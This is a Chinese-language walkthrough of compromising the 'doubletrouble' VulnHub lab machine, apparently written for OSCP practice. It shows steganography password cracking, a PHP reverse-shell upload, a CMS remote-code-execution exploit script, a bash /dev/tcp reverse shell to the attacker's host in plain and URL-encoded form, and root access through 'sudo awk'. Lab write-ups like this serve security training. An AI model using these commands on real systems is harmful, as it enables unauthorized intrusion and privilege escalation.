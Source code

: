 # 前言

靶机：`doubletrouble`，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

该靶机目前只剩下一个了，之前记得是有两台构成系列的。

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载`https://pan.quark.cn/s/28f410dd165f`

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\1.jpg)

# 信息收集

## 使用nmap扫描端口

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\2.jpg)

## 网站信息探测

访问80端口默认界面，可以看到这是某种CMS，并且版本已经有了，查看页面源代码，发现可能是目录型网站

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\3.jpg)

使用`gobuster、ffuf、dirsearch、dirb`等工具进行爆破

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\4.jpg)

# 图片隐写内容获取

访问`secret`，发现一张图片，下载到`kali`中，查看图片，发现类似于专辑的那种封面

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\5.jpg)

使用`exiftool`、`binwalk`测试并无隐藏信息

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\6.jpg)

在使用`steghide`，发现输入具有输入密码操作

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\7.jpg)

使用该系列工具`stegseek`进行破解

```shell
stegseek --crack doubletrouble.jpg /usr/share/wordlists/rockyou.txt passw.txt
```

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\8.jpg)

这时候，可以使用`steghide`继续，或者直接使用写入到文件中的信息，以这个登录到邮件登录系统

`otisrush@localhost.com`和`otis666`

# 漏洞利用

## 方式一，手动上传php脚本

然后再寻找有无利用点时，发现一个上传的，是头像上传，不过这里直接上传一个`php`文件进行测试。

以`kali`自带的`php`反弹上传，路径在`/usr/share/webshells/php/php-reverse-shell.php`

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\9.jpg)

点击保存后，发现跳转，并出现报错

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\10.jpg)

在之前目录爆破时，发现`uploads`目录，只是当时其中并未有内容，这时候再去查看，为什么呢，因为文件名称就给人是上传文件的存放处

可以看到上传的脚本文件，这里有两个，是我在进行上传后，以为哪里有问题导致没有上传成功，所以又上传了一次

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\11.jpg)

在`kali`开启监听，我在这个脚本中设置的端口是1234，监听这个端口即可

点击脚本，若是网站可解析`php`文件，则可以反弹成功

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\12.jpg)

成功获取一个`shell`，先获取一个交互式的界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 方式二，搜索CMS版本漏洞

通过`CMS`的版本漏洞进行获取`shell`

使用`searchsploit`搜索版本漏洞，发现有很多，这里采用远程代码执行`v2`，注意，这里远程代码执行的漏洞，都需要先有邮箱及密码才行。

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\13.jpg)

直接把这个文件复制到当前目录，然后查看一下代码内容，代码太长，这里直接找一些用处大的截图

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\14.jpg)

直接执行该脚本，会提示用法的

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\15.jpg)

这时候，根据前面获取的邮箱和密码使用j即可

```shell
python3 50944.py  -url http://192.168.10.10/ -u otisrush@localhost.com -p otis666
```

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\16.jpg)

浏览器访问，发现命令执行了

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\17.jpg)

这时候，就可以通过传参，构造反弹`shell`的命令，如`bash`、`nc`、`python`等

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'

#经过url编码处理后使用
%2fbin%2fbash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.2%2f9999+0%3e%261%27
```

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\18.jpg)

# 靶机内信息收集

收集靶机内用户

```shell
ls -al /home
cat /etc/passwd | grep /bin/bash
```

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\19.jpg)

查看操作系统信息，以及内核版本

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\20.jpg)

网络状态信息

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\21.jpg)

查看进程信息、定时任务等

```shell
ps -aux
top
cat /etc/crontab
```

寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\22.jpg)

发现`sudo`，因为并没有发现其他用户，猜测可能不需要水平提权，直接提取至`root`即可

# 提权

尝试`sudo`对于当前用户是否可用，发现无需密码，并且`awk`可进行`sudo`

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\23.jpg)

若不知道或忘记`awk`的`sudo`提取，可以借助网站`gtfobins.github.io`获取

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\24.jpg)

```shell
sudo /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

![](D:\stu\vulnhub\OSCP必刷靶场\doubletrouble靶场\pic\25.jpg)

不过没有`flag`，可能到这里就可以了

# 总结

该靶机考察以下几点：

1. 网站目录爆破
2. 图片隐写内容及其密码的暴力破解
3. 通过上传头像处的文件上传漏洞，促使反弹`shell`
4. `searchsploit`的使用，以及发现CMS版本漏洞，会利用
5. 对于`sudo`各种命令的提权



















































